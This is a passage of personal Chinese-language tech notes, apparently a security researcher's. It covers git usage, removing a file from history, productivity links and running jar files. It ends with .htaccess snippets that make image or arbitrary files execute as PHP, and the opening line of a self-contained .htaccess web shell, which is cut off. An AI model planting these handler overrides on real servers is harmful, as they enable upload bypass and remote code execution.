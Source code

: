 
  新建本地git仓库时,添加文件:(要先pull下来tar_url的文件到新建的文件夹,然后将要提交的文件复制到新建文件夹中,
  如果先把要提交的新文件放到新建的文件夹下再进行如下一串命令,将提示出错)
  git init(在随便新建的一个文件夹下)
  git pull tar_url(该条命令执行后用新文件替换旧文件)
  git status
  git add newfile (git add .)
  git commit -a -m "xxx"
  git remote add origin tar_url
  git push -u origin master                                               
  -----------------------
  如果同1个github帐号有2台机器操作相同的项目(家里一台,上班一台),github.com上项目是最新版本,要在新电脑上(eg,上班的电脑)继续这个项
  目:
  git clone https://github.com/..../xxx.git(新电脑本地没有这个项目时需要运行)
  自行更新需要更新的文件
  git add .
  git commit -a -m "up"
  git push -u origin master

  删除所有历史版本中的敏感文件
  cd /tmp
  mkdir 3xp10it
  cd 3xp10it
  git init 
  git pull https://github.com/3xp10it/3xp10it.git
  git filter-branch --tree-filter 'rm -f config.ini'

  github多人协作
  https://gist.github.com/suziewong/4378619

  git pull<==>svn update
  git push -u origin master<==>svn commit

  git有本地仓库和远程仓库,svn只有远程仓库

  git本地误删除一个文件,怎样从github上拉回
  https://segmentfault.com/q/1010000004227370
  http://blog.csdn.net/qq_15437667/article/details/52762196
  http://blog.csdn.net/iaiti/article/details/39557951

  git常用命令
  http://www.ruanyifeng.com/blog/2015/12/git-cheat-sheet.html

35.生活学习:1>(本杰明-富兰克林13条)http://www.201980.com/lizhi/chenggong/9386.html
             2>(曾国藩修身12条)http://www.201980.com/lizhi/chenggong/8007.html

36.mouse without borders:多屏幕同键盘鼠标控制
              https://www.microsoft.com/en-us/download/confirmation.aspx?id=35460(win)
              http://alternativeto.net/software/mouse-without-borders2/?platform=linux(linux)
              x2vnc(目前认为最好,通过vnc达到mouse without borders的功能!!)

37.java执行jar文件命令:java -jar xx.jar

38..htaccess can be :
  1>
  <FilesMatch "haha">
  SetHandler application/x-httpd-php
  </FilesMatch>
  2>
  <Files demo.jpg>
  ForceType application/x-httpd-php
  SetHandler application/x-httpd-php
  </Files>
  3>自解析.htaccess
    -----------------------自解析.htaccess--------------------------------
    # Self contained .htaccess web shell - Part of the htshell project